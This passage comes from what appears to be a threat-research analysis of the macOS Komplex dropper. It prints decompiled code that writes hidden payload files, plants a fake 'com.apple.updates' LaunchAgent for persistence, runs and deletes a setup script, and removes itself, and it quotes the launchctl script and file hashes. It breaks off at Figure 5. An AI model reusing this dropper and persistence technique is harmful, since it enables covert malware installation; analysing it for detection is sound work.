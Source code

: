 


12345678910111213141516171819202122232425

int _main(int arg0, int arg1) {    var_38 = [[NSAutoreleasePool alloc] init];    var_40 = [NSData dataWithBytes:_Payload_1 length:0x15c1c];    var_48 = [NSData dataWithBytes:_Payload_2 length:0x201];    var_50 = [NSData dataWithBytes:_Payload_3 length:0x4c];    system("mkdir -p /Users/Shared/.local/ &> /dev/null");    system("mkdir -p ~/Library/LaunchAgents/ &> /dev/null");    [var_40 writeToFile:@"/Users/Shared/.local/kextd" atomically:0x1];    [var_48 writeToFile:@"/Users/Shared/com.apple.updates.plist" atomically:0x1];    [var_50 writeToFile:@"/Users/Shared/start.sh" atomically:0x1];    system("cp /Users/Shared/com.apple.updates.plist $HOME/Library/LaunchAgents/  &>/dev/null");    remove("/Users/Shared/com.apple.updates.plist");    system("chmod 755 /Users/Shared/.local/kextd");    system("chmod 755 /Users/Shared/start.sh");    var_58 = [[NSTask alloc] init];    [var_58 setLaunchPath:@"/Users/Shared/start.sh"];    [var_58 launch];    [var_58 waitUntilExit];    remove("/Users/Shared/start.sh");    remove(*arg1);    [var_38 release];    return 0x0;}






Figure 3 Komplex Dropper's main function that drops three files to the system and runs a shell script
The “_main” function writes the data within ‘_Payload_1’, ‘_Payload_2’, and ‘_Payload_3’ variables to the following files, respectively:

/Users/Shared/.local/kextd (SHA256:
227b7fe495ad9951aebf0aae3c317c1ac526cdd255953f111341b0b11be3bbc5)
/Users/Shared/com.apple.updates.plist (SHA256:
1f22e8f489abff004a3c47210a9642798e1c53efc9d6f333a1072af4b11d71ef)
/Users/Shared/start.sh (SHA256:
d494e9f885ad2d6a2686424843142ddc680bb5485414023976b4d15e3b6be800)

The shell script saved to ‘/Users/Shared/start.sh’ calls the system command ‘launchctl’ to add a plist entry into ‘launchd’ to automatically execute the Komplex payload each time the system starts. Figure 4 shows the contents of the ‘start.sh’ script that sets up persistence for the payload.





#!/bin/sh
launchctl load -w ~/Library/LaunchAgents/com.apple.updates.plist




12

#!/bin/shlaunchctl load -w ~/Library/LaunchAgents/com.apple.updates.plist






Figure 4 Contents of the start.sh shell script that calls launchctl
The ‘start.sh’ script loads ‘com.apple.updates.plist’, which sets the properties of the Komplex payload that is executed from “/Users/Shared/.local/kextd” at system start up courtesy of the “RunAtLoad” parameter.  Figure 5 shows the contents of the ‘com.apple.updates.plist’ file loaded into ‘launchd’.


